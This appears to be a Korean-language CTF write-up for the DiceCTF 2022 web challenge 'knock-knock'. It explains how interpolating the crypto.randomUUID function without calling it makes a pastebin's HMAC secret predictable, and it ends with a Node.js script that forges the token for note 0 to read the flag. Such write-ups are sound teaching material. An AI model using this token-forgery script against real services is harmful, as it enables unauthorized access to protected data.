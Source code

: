 # DiceCTF 2022 WriteUp 
**CTF start Date: 2022-02-04 (2 day)**
***
- **[WEB] knock-knock (356 solves/107 points)**
- **[WEB] no-cookies (5 solves/415 points)**
- 

## [WEB] knock-knock 
Knock knock? Who's there? Another pastebin!!

URL: https://knock-knock.mc.ax/

(356 solves/107 points)

### Analyse
문제에서 제공된 사이트에서 글쓰기, 읽기 기능을 확인할 수 있었다.

또한 문제 사이트의 소스코드가 제공이 되어 각각의 기능들을 파악하기 수월했다.

```javascript
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}
const db = new Database();
db.createNote({ data: process.env.FLAG });
```

위 소스코드는 글쓰기, 읽기를 위해 작성된 코드이며 글을 생성하기 위한 **createNote** 함수에선 글이 몇번째 글인지 확인하는 **id** 값과 id 값으로 생성되는 **token**을 만들고, 글을 읽기 위한 **getNote** 함수에선 id, token값을 받아 id값으로 token을 생성하고 전달받은 token값과 비교해 일치하면 사용자에게 id에 해당하는 글을 전달하는 것을 알 수 있다.


token을 생성하는 함수는 **generateToken** 함수이며 **this.secret** 값을 암호화 키로 id값을 sha256 HMAC으로 변환해 token을 생성한다.


**this.secret** 값은 \`secret-${crypto.randomUUID}\`와 같이 template string으로 되어 있었다.


**flag**는 서비스가 시작될 때 글로 생성되어 지는걸 확인 할 수 있었다. 
flag가 포함된 글의 id값은 createNote 함수의 `const id = this.notes.length;` 코드로 생성되기에 0의 값을 가지는걸 알 수 있다.


### Find out the secret value

this.secret 값을 파악하기 위해 this.secret에 사용된 crypto.randomUUID 값을 보았다.

```javascript
> crypto.randomUUID
[Function: randomUUID]

> crypto.randomUUID.toString()
'function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
```

예상과는 다르게 crypto.randomUUID는 string type이 아닌 function type을 가지고 있었고 toString의 결과값은 함수의 내용을 출력하고 있었다.
따라서 \`secret-${crypto.randomUUID}\` 값은 random한 UUID값이 아닌 유추가능하고 일정한 값임을 알 수 있었다.

```javascript
> `secret-${crypto.randomUUID}`
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = { ...options };\n' +
```

### Generate flag token and read flag

서버와 동일한 버전의 nodejs에서 사용해야 한다.

```javascript
const request = require('request');
const crypto = require('crypto');
uri = "https://knock-knock.mc.ax/"
secret = `secret-${crypto.randomUUID}`;
token = crypto.createHmac('sha256', secret).update('0').digest('hex');
uri += `note?id=0&token=${token}`
const options = {
        uri,
};
request.get(options, function (error, response, body) {
        console.log(body);
});
```
***
